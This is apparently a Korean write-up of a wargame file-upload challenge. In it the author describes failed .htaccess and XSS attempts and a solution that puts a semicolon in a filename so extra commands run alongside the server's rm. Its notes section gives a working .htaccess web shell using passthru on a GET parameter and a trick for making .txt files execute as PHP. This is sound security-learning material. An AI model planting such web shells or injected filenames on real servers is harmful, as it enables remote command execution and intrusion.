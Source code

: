 # 문제

- 파일을 메모한줄과 함께 업로드 받는다
- 업로드된 리스트를 확인할 수 있고 삭제도 가능하고 업로드된 파일을 열어볼 수 있다.
- php도 텍스트로 인식된다.

# 풀이

- 처음엔 `.htaccess`인젝션 문제인줄 알았다.
  - 하지만 php로 인식하게 만드는 `.htaccess`를 인젝션 해도 php가 실행이 안됬다.
- XSS 인젝션을 해보려고 시도해봤다.
  - 알고있는 우회기법이 없어서
  - 쿼터+스크립트정도 넣어봤다.
  - 하지만 이역시 안됬..
  - 이것도 아닌것 같았다
    - XSS는 잘모르지만
    - 워게임 문제에서 아무런 힌트없이 우회해서 XSS시킬것 같진 않았다.
- 포기하고 구글링을 더 해봤다.
  - 하지만 관련 내용은 없었다.
- 이번 문제는 포기하고 풀이를 검색해봤다.
  - delete 할 때 rm 명령어가 실행되는 것이었고
  - 파일명에 세미콜론을 붙여서 추가 명령어가 실행되게끔 만드는거란다.
  - 그런데 게싱과정이 하나같이 석연치 않다..
    - 어떻게 대뜸 rm 명령어가 실행될거라고 생각을 하지?
    - php에는 삭제함수가 따로 없나..?
    - 그리고 풀이에서 하나같이 다 `;ls`를 해보는데
    - 명령어의 결과값이 페이지에 노출될거라고 어떻게 예상하는거지?
    - 문제페이지를 보면 어디에도 명령어 결과를 리턴해주는 내용이 티끌조차 안보이는데..
- 도움을 받을 수 있는 제대로된 풀이가 없어서 아쉬웠다.
- 어쨌든
  - old로 바뀐 지금 ls 명령을 실행되게 만들면
  - flag값이 파일명으로 출력된다.

# 알게된 것

### .htaccess

- 현재 위치한 폴더의 http설정을 바꿀수 있게 해준다.

  - `/etc/httpd/conf.d `는 글로벌 설정 파일이다.

- 이용 방식

  - *`txt` 확장자를 php로 인식하여 실행되게 만들기*

    - `.htaccess` 파일 내용 수정 후 업로드
      -   `AddType application/x-httpd-php .txt`
    - `php`파일을 `txt`로 확장자 변경 후 업로드 및 실행

  - *`.htaccess`자체를 웹쉘로 이용*

    - `.htaccess` 수정 후 업로드

      ```php
      <Files ~ "^\.ht">
      
      Order allow, deny
      
      Allow from all
      
      </Files>
      
      interpreted
      
      AddType application/x-httpd-php .htaccess
      
      
      
      <?php echo "\n";passthru($_GET['c']." 2>&1"); ?>
      ```

  - *PHP 엔진 끄고 php 코드 읽기*

    - `.htaccess` 수정 후 업로드

      ```php
      php_flag engine off
      
      AddType text/plain php
      ```

- [출처 - hyunmini](https://hyunmini.tistory.com/48)